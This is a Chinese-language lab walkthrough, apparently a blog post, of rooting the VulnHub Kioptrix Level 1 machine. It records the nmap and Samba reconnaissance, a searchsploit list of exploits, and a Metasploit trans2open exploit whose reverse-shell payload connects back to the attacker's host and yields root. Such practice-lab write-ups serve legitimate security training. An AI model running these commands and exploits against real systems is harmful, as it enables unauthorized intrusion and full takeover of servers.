 ```yaml
---
title: vulnhub kioptrix level 1
---
```


下载虚拟机，用VMWare打开，和Kali攻击机在一个网段

### 信息收集
#### ip探测
虚拟机安装好后，不能通过登录机器获取ifconfig的ip信息，所以使用外部扫描确定机器在网段中的ip，使用kali的arp-scan或者nmap

```
$ arp-scan 192.168.159.0/24
...
192.168.159.129 00:0c:29:e4:26:1c VMware, Inc.
...

$ nmap -sn 192.168.159.0/24
...
Nmap scan report for 192.168.159.129
...
```

得到机器的ip是192.168.159.129

#### 服务探测
使用nmap进行全端口扫描，直接使用msf中的db_nmap可以保存数据更加方便

```
msf $ db_nmap -sT -sV -p 1-65535 -Pn 192.168.159.129
msf $ services 192.168.159.129
host             port  proto  name         state  info
----             ----  -----  ----         -----  ----
192.168.159.129  22    tcp    ssh          open   OpenSSH 2.9p2 protocol 1.99
192.168.159.129  80    tcp    http         open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.159.129  111   tcp    rpcbind      open   2 RPC #100000
192.168.159.129  139   tcp    netbios-ssn  open   Samba smbd workgroup: MYGROUP
192.168.159.129  443   tcp    ssl/https    open   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.159.129  1024  tcp    status       open   1 RPC #100024
```

#### samba版本探测
nbtscan可以探测139端口的信息，enum4linux工具可以枚举samba的信息，比如是否可以用空口令session

还是用msf进行samba版本探测

```
msf5 > search smb_version

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   1  auxiliary/scanner/smb/smb_version                   normal  Yes    SMB Version Detection


msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > options

Module options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf5 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.159.129
RHOSTS => 192.168.159.129
msf5 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.159.129:139   - Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.159.129:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### web目录暴破
```
$ dirb http://192.168.159.129
```

暴破出来一些路径，访问均没有发现明显的利用点

### 威胁建模
主机资产：Linux 2.4.x ip 192.168.159.129
服务资产：http、httpd、rpcbind、ssh、samba
web框架、插件未查

考虑可能产生漏洞的攻击面

1. web漏洞，期望通过SQL或者命令执行或者apache httpd本身漏洞等高风险漏洞拿到权限
2. samba有远程RCE或者远程提权漏洞，或者可以获取一些信息
3. SSL的漏洞，有远程RCE或者远程提权漏洞
4. ssh口令暴破
5. rpc可能有一些反序列化漏洞

### 漏洞分析
AWVS扫描Web没有发现Web漏洞

```
$ searchsploit samba 2.2
$ searchsploit httpd 1.3
$ searchsploit ssl 2.8
$ searchsploit ssl 2.9
$ searchsploit ssl 0.9
$ searchsploit apache 1.3
$ searchsploit rpc
```

得出一些可能比较有用的漏洞，去掉非Linxu平台，去掉一些没有EXP的漏洞，得到比较可用的一些EXP，去掉心脏出血这种不够直接的EXP
```
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                         | exploits/unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow                                       | exploits/unix/remote/764.c
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer Overflow (Metasploit) (1)                                      | exploits/linux/remote/16321.rb
Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploit)                                          | exploits/linux_x86/remote/16861.rb
Samba 2.2.8 - Brute Force Method Remote Command Execution                                                    | exploits/linux/remote/55.c
Samba 2.2.x - 'nttrans' Remote Overflow (Metasploit)                                                         | exploits/linux/remote/9936.rb
Samba 2.2.x - Remote Buffer Overflow                                                                         | exploits/linux/remote/7.pl
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                            | exploits/multiple/remote/10.c
```

### 漏洞攻击
有metasploit标志的先进行尝试
```
msf5 exploit(linux/samba/trans2open) > use exploit/linux/samba/trans2open
msf5 exploit(linux/samba/trans2open) > set RHOSTS 192.168.159.129
RHOSTS => 192.168.159.129
msf5 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf5 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.159.129  yes       The target address range or CIDR identifier
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf5 exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.129:139 - Trying return address 0xbffffdfc...
[*] 192.168.159.129:139 - Trying return address 0xbffffcfc...
[*] 192.168.159.129:139 - Trying return address 0xbffffbfc...
[*] 192.168.159.129:139 - Trying return address 0xbffffafc...
[*] Command shell session 10 opened (192.168.159.128:4444 -> 192.168.159.129:1074) at 2019-09-24 16:42:28 +0800

whoami
root
```

直接提权到root了

### 后渗透攻击
pass

切换到root目录，查看`.bash_history`文件可以看到执行过mail命令

执行后查看邮件，可以得到一份祝贺邮件

### 其他
使用mod_ssl的764.c编译失败，这种情况可以到exploit-db上找到对应CVE编号，查询是否有编译好的或者看源c文件，是否有提示，编译中版本问题libssl的库在kali上无法安装，可以使用其他github或者exploit-db上已有的EXP，不行就换其他的漏洞试
